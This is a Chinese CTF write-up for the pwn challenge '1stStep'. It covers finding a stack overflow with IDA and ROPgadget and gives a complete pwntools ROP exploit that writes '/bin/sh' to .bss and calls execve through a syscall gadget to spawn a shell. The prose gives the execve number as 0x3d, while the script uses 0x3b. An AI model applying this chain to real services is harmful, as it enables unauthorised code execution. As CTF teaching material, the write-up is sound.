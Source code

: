 ### 1stStep

#### 考点

- ida、ROPgadget工具的使用
- 多次栈溢出攻击的原理的理解
- 对汇编语言的理解

#### 解题过程

- 使用`checksec、file`工具查看文件`./1stStep`信息：

![checksec](/img/posts/2023-10-23-1stStep/images/checksec.png)

![file](/img/posts/2023-10-23-1stStep/images/file.png)

​		可见`./1stStep`文件为64位程序，启动了DEP保护，使用静态链接。

- 使用`ida`工具打开文件，进行反编译，`main`函数如下，可见main函数内有两个函数banner、vuln，查看两个函数内部逻辑。

  `main`

![main](/img/posts/2023-10-23-1stStep/images/main.png)

​		`banner`：输出提示信息

![banner](/img/posts/2023-10-23-1stStep/images/banner.png)

​		`vuln`：接收用户输入，`read`函数存在栈溢出漏洞。

![vuln](/img/posts/2023-10-23-1stStep/images/vuln.png)

- 经过`ida`静态分析，发现文件内部并没有`system`和`"/bin/sh"`字符串可供利用，因此尝试通过寻找`syscall`函数来执行命令`exceve("/bin/sh", 0, 0)`，`exceve`命令为`0x3d`，`"/bin/sh"`命令可以通过`read`函数传入文件数据存储区域中（`.bss`或`.data`，要求可读可写）。通过`ida`工具获取重要地址，通过`ROPgadget`工具获取`pop rdi, ret`等片段的地址：

| 函数                | 地址               |
| ------------------- | ------------------ |
| `main`              | 0x0000000000400AA4 |
| `vuln`              | 0x0000000000400A6C |
| `read`              | 0x000000000043FDF0 |
| `syscall`           | 0x000000000043F435 |
| `mov rax rdi ; ret` | 0x0000000000417260 |
| `pop rdi; ret`      | 0x00000000004016e6 |
| `pop rsi; ret`      | 0x0000000000401807 |
| `pop rdx; ret`      | 0x00000000004432a6 |
| `"/bin/sh"`         | 0x00000000006CCC72 |
| `ret`               | 0x0000000000400AC2 |

- 进行栈溢出攻击的过程：首先在`vuln`函数处制造栈溢出，调用`read`函数将`"/bin/sh"`函数传入文件地址`0x00000000006CCC72`中，`payload1`构造为`b'a' * (0x20 + 8) + ret + pop rdi + 0 + pop rsi + bss_addr + pop rdx + 8 + read + main_addr`，然后继续制造栈溢出，调用`syscall`函数，执行命令，构造`payload2`为`b'a' * (0x20 + 8) + pop_rdi + 0x3b + mov_rax_rdi + pop rdi + "/bin/sh" addr + pop rsi + 0 + pop rdx + 0 + syscall `。

- 构造python脚本，如下，由于未查询到标准的`pop rax ; ret`片段，使用了`mov rax rdi ; ret`片段先赋值给rdi，然后再赋值给rax：

  ```python
  from pwn import *
  
  # 启动进程
  context(arch='amd64', log_level='debug')
  p = process('./1stStep')
  
  # 设置参数, payload
  mov_rax_rdi = 0x417260
  pop_rdi = 0x4016e6
  pop_rsi = 0x401807
  pop_rdx = 0x4432a6
  syscall = 0x43F435
  bss = 0x6CCC72
  vul = 0x400A6C
  read = 0x43FDF0
  ret = 0x400AC2
  main_addr = 0x400AA4
  
  # 第一次将"/bin/sh"写入内存
  p.recvuntil("Go explore and exploit here\x1B[0m")
  payload1 = flat(b'A'*(0x20 + 8), ret, pop_rdi, 0, pop_rsi, bss, pop_rdx, 8, read, main_addr)
  
  p.send(payload1)
  p.send("/bin/sh\x00")
  
  # 然后进行ROP攻击
  p.recvuntil("Go explore and exploit here\x1B[0m")
  # gdb.attach(p, "b *0x400AA2")
  payload2 = flat(b'A'*(0x20 + 8), pop_rdi, 0x3b, mov_rax_rdi, pop_rdi, bss, pop_rsi, 0, pop_rdx, 0, syscall)
  p.send(payload2)
  p.interactive()
  ```

#### 结果

成功执行命令，如下图：

![result](/img/posts/2023-10-23-1stStep/images/result.png)
